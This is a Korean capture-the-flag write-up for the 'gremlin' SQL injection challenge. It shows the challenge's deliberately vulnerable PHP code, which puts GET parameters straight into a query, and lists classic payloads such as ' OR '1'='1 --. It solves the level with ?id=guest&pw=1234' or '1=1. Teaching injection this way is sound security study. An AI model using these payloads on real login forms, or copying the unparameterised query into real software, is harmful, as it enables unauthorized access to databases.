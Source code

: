 # GREMLIN

## Problem
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

## Background Knowledge
* [SQL Injection - Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)
	- SQL 인젝션은 응용 프로그램 보안 상의 허점을 의도적으로 이용해, 악의적인 SQL문을 실행하여 데이터베이스를 비정상적으로 조작하는 코드 인젝션 공격 방법이다.
	- 구현
		+ 걸러지지 않은 탈출 문자
			- `' OR '1'='1`
			- `' OR '1'='1' {`
			- `' OR '1'='1' --`
			- `' OR '1'='1' /* `
		+ 정확하지 않은 타입 핸들링
		+ 블라인드 SQLi

## Inspection
* `preg_match`로 거르는 것은 다른 테이블을 건드는 것을 막기 위함이지, 문제에 관한 것은 아니다.
* `select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'`
	- 파라미터로 `id`와 `pw`를 넘겨준다.
	- 이 파라미터들이 위 쿼리문에 들어간다.
* `if($result['id']) solve("gremlin");`
	- 위 쿼리문을 날렸을 때 `id` 열의 결과물이 있어야 통과한다.
* 파라미터에 `'`를 날려도 걸러지지 않는다.

## Solution
* 걸러지지 않는 탈출 문자(`'`)가 있으믈 이를 활용한다.
	- `?id=guest&pw=1234' or '1=1`
	- 쿼리가 `select id from prob_gremlin where id='guest' and pw='1234' or '1=1'` 와 같이 정상적으로 처리된다.
